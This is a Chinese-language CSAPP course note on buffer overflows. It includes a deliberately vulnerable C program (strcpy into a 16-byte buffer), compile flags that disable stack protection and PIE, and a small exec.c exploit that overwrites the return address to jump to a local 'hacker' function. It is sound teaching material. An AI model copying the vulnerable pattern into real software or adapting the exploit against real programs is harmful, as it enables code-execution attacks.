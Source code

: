 ```yaml
---
title: 'Chapter III-6'
description: 'CSAPP NOTE CHAP III-6'
order: 5
---
```


# Chap 3.6 越界访问和缓冲区攻击

## 缓冲区溢出

**定义** C 语言没有对数组的边界作出约束，因此访问下标可能越界，称为 **缓冲区溢出**

例如：

1. char s[10];
2. s[10] = -1; // 越界
3. chap *p = s;
4. *(p + 13) = 40; // 越界

​	第 2 行、第 4 行的数组访问，都超出了数组的边界，产生了缓冲区溢出。

## 缓冲区溢出攻击

**原理** 由于数组/缓冲区是局部变量，都放在堆栈段里，而程序的返回点也在堆栈段里，因此利用缓冲区溢出修改对应返回点，让程序跳进自己的恶意代码即可攻击。

**原因** 没有对栈中作为缓冲区的数组做越界检查。

**例子** 利用缓冲区溢出转到自设的程序 hacker 去执行 outputs 漏洞：当命令行中字符串超 25 个字符时，使用 `strcpy` 函数就会使缓冲 buffer 造成写溢出并破坏返址

```c
#include "stdio.h"
#include "string.h"
void outputs(char *str) 
{ 
    char buffer[16]; 
    strcpy(buffer,str); 
    printf("%s \n", buffer);
}
void hacker(void)
{
    printf("being hacked\n");
}
int main(int argc, char *argv[])
{
    outputs(argv[1]);
    return 0;
}
```

> 编译时，关闭堆栈保护和 PIE (Position Independed Executable), 编译命令为
>
> `gcc -g -m32 -fno-stack-protector -no-pie -fno-pic -o test test.c`

由于如法从控制台直接输入 ascii 码，因此编写一个程序调用 execve() 系统函数，启动 test 可执行程序，并注入攻击字符串。

```c
// exec.c
#include "stdio.h"
char code[] = 
  "0123456789ABCDEF0123456789AB"
  "\xc5\x91\x04\x08"
  "\x00";
int main(void) 
{
  char *arg[3];
  arg[0] = "./test";
  arg[1] = code;
  arg[2] = NULL;
  execve(arg[0], arg, NULL);
  return 0;
}
```

运行结果如下：

![image-20251022144318401](https://img.nkns.cc/PicGo/image-20251022144318401.png)

因为 `"\xc5\x91\x04\x08"` 这里是对应的程序返回口，这里将它覆盖成了 `0x080491c5` ，成功执行 hacker 函数。